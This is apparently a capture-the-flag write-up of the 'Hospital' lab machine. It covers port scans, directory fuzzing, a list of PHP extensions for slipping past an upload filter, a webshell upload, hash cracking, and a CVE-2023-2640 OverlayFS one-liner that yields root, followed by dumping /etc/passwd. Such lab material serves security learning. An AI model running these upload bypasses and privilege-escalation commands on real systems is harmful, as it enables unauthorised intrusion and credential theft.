*Nmap scan*:

```shell
$ cat nmap_allports.txt        
# Nmap 7.94SVN scan initiated Fri Feb  9 12:28:21 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.241
Nmap scan report for 10.10.11.241
Host is up (0.050s latency).
Not shown: 65507 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1801/tcp open  msmq
2103/tcp open  zephyr-clt
2105/tcp open  eklogin
2107/tcp open  msmq-mgmt
2179/tcp open  vmrdp
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
6404/tcp open  boe-filesvr
6406/tcp open  boe-processsvr
6407/tcp open  boe-resssvr1
6409/tcp open  boe-resssvr3
6616/tcp open  unknown
6639/tcp open  unknown
8080/tcp open  http-proxy
9389/tcp open  adws
```

```shell
$ cat nmap_servicesversions.txt 
# Nmap 7.94SVN scan initiated Fri Feb  9 12:32:06 2024 as: nmap -p22,53,88,135,139,389,443,445,464,593,636,1801,2103,2105,2107,2179,3268,3269,3389,5985,6404,6406,6407,6409,6616,6639,8080,9389, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.241
Nmap scan report for 10.10.11.241
Host is up (0.050s latency).

PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-02-09 18:32:13Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
|_SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
|_SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| tls-alpn: 
|_  http/1.1
|_http-favicon: Unknown favicon MD5: 924A68D347C80D0E502157E83812BB23
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
|_SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
|_SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
|_SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Issuer: commonName=DC.hospital.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-08T18:25:49
| Not valid after:  2024-08-09T18:25:49
| MD5:   83ea:a3b1:3b59:d661:25d6:9529:b083:bbfb
|_SHA-1: 4e27:792e:fa74:c5a2:c0fd:3168:3cd7:84ec:1750:89e0
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-09T18:33:07+00:00
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6404/tcp open  msrpc             Microsoft Windows RPC
6406/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp open  msrpc             Microsoft Windows RPC
6409/tcp open  msrpc             Microsoft Windows RPC
6616/tcp open  msrpc             Microsoft Windows RPC
6639/tcp open  msrpc             Microsoft Windows RPC
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Login
|_Requested resource was login.php
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
9389/tcp open  mc-nmf            .NET Message Framing
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-02-09T18:33:11
|_  start_date: N/A
```

```shell
$ gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt   
[...]
/.ht_wsr.txt          (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/.htaccess-dev        (Status: 403) [Size: 279]
/.htaccess-local      (Status: 403) [Size: 279]
/.htaccess-marco      (Status: 403) [Size: 279]
/.htaccess.bak1       (Status: 403) [Size: 279]
/.htaccess.BAK        (Status: 403) [Size: 279]
/.htaccess.bak        (Status: 403) [Size: 279]
/.htaccess.old        (Status: 403) [Size: 279]
/.htaccess.orig       (Status: 403) [Size: 279]
/.htaccess.sample     (Status: 403) [Size: 279]
/.htaccess.save       (Status: 403) [Size: 279]
/.htaccess.txt        (Status: 403) [Size: 279]
/.htaccess_orig       (Status: 403) [Size: 279]
/.htaccess_extra      (Status: 403) [Size: 279]
/.htaccess_sc         (Status: 403) [Size: 279]
/.htaccessBAK         (Status: 403) [Size: 279]
/.htaccessOLD         (Status: 403) [Size: 279]
/.htaccessOLD2        (Status: 403) [Size: 279]
/.htaccess~           (Status: 403) [Size: 279]
/.htgroup             (Status: 403) [Size: 279]
/.htpasswd-old        (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswd_test       (Status: 403) [Size: 279]
/.htusers             (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
/config.php           (Status: 200) [Size: 0]
/index.phps           (Status: 403) [Size: 279]
/login.php            (Status: 200) [Size: 5739]
/register.php         (Status: 200) [Size: 5125]
/server-status/       (Status: 403) [Size: 279]
/upload.php           (Status: 200) [Size: 0]
/uploads/             (Status: 403) [Size: 279]
Progress: 2565 / 2566 (99.96%)

$ gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-files.txt
/index.php            (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 5739]
/register.php         (Status: 200) [Size: 5125]
/config.php           (Status: 200) [Size: 0]
/.htaccess            (Status: 403) [Size: 279]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/.                    (Status: 302) [Size: 0] [--> login.php]
/upload.php           (Status: 200) [Size: 0]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/success.php          (Status: 200) [Size: 3536]
/.htpasswd            (Status: 403) [Size: 279]
/.htm                 (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
/.htgroup             (Status: 403) [Size: 279]
/wp-forum.phps        (Status: 403) [Size: 279]
/failed.php           (Status: 200) [Size: 3508]
/.htaccess.bak        (Status: 403) [Size: 279]
/.htuser              (Status: 403) [Size: 279]
Progress: 11424 / 11425 (99.99%)
```

The machine exposes so many doors. After several checks, we focus on the application on port 8080.



From web fuzzing, very interesting files and directories are identified.

```shell
$ gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.241:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/images               (Status: 301) [Size: 320] [--> http://10.10.11.241:8080/images/]
/.html                (Status: 403) [Size: 279]
/.html.php            (Status: 403) [Size: 279]
/login.php            (Status: 200) [Size: 5739]
/js                   (Status: 301) [Size: 316] [--> http://10.10.11.241:8080/js/]
/index.php            (Status: 302) [Size: 0] [--> login.php]
/css                  (Status: 301) [Size: 317] [--> http://10.10.11.241:8080/css/]
/register.php         (Status: 200) [Size: 5125]
/.htm                 (Status: 403) [Size: 279]
/.htm.php             (Status: 403) [Size: 279]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/uploads              (Status: 301) [Size: 321] [--> http://10.10.11.241:8080/uploads/]
/upload.php           (Status: 200) [Size: 0]
/.                    (Status: 302) [Size: 0] [--> login.php]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.11.241:8080/fonts/]
/.htaccess            (Status: 403) [Size: 279]
/.htaccess.php        (Status: 403) [Size: 279]
/.phtml               (Status: 403) [Size: 279]
/success.php          (Status: 200) [Size: 3536]
/vendor               (Status: 301) [Size: 320] [--> http://10.10.11.241:8080/vendor/]
...
Progress: 86014 / 86016 (100.00%)
```

After completing registration, the webapp allows file uploads.



One tries to upload a txt file as an example. One tries to upload a txt file as an example. The file is successfully uploaded and saved under the /uploads folder.



Since the webapp runs PHP, you can take advantage of the file upload feature to upload a PHP webshell. You want to check if any countermeasures are implemented. Apparently, the loading of files with PHP extension is blocked.



From [https://book.hacktricks.xyz/pentesting-web/file-upload](https://book.hacktricks.xyz/pentesting-web/file-upload, examples of how to bypass the PHP extension check are shown. A wordlist of extensions was created that could bypass the control.

```shell
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.pht
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.hphp
.ctp
.module
.pHp
.pHP5
.PhAr
.png.php
.png.Php5
.php%20
.php%0a
.php%00
.php%0d%0a
```

Burpsuite's Intruder was used to see which of the extensions above is allowed. Briefly viewing the results, it was noted that the upload of the file "shell.phar" is allowed.



After upload, the webshell is executed.



To get a webshell, "p0wny" is used: [https://github.com/flozz/p0wny-shell](https://github.com/flozz/p0wny-shell).



The webshell works, but the strange thing is that you get a shell on Linux. This is strange since it is a Windows machine.

Browsing through the files, you locate the database connection parameters in "config.php."



```shell
www-data@webserver:…/html/uploads# ss -ntlp
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0      4096   127.0.0.53%lo:53        0.0.0.0:*          
LISTEN 0      4096      127.0.0.54:53        0.0.0.0:*          
LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*          
LISTEN 0      511                *:80              *:*          
LISTEN 0      4096               *:22              *:*
```

Using the connection parameters identified earlier and accessing the "hospital" database, the "users" table is identified. The user "username" is the one that was created during the registration phase.



An attempt is made to crack the hash of "admin".

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt       
[...]
123456           (?)     
[...]
```

The password is 123456. It may be a rabbithole. 



From linpeas, it was noted that the machine (or VM) is using Ubuntu 23.04 with kernel version of 5.19.0-35-generic. It was then checked whether the machine was vulnerable to [https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/).

```shell
www-data@webserver:/tmp/asd$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'";rm -rf l u w m
uid=0(root) gid=0(root) groups=0(root)
```

The machine turns out to be vulnerable. RCE is performed to obtain a root shell.

```shell
www-data@webserver:/tmp/asd$ whoami
whoami
www-data
www-data@webserver:/tmp/asd$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
root@webserver:/tmp/asd# whoami
whoami
root
```

A root shell is obtained. With those privileges you can get the contents of the shadow file and the contents of the passwd file.

```shell
root@webserver:/tmp/asd# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:106::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:101:1::/var/cache/pollinate:/bin/false
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
syslog:x:103:109::/nonexistent:/usr/sbin/nologin
uuidd:x:104:110::/run/uuidd:/usr/sbin/nologin
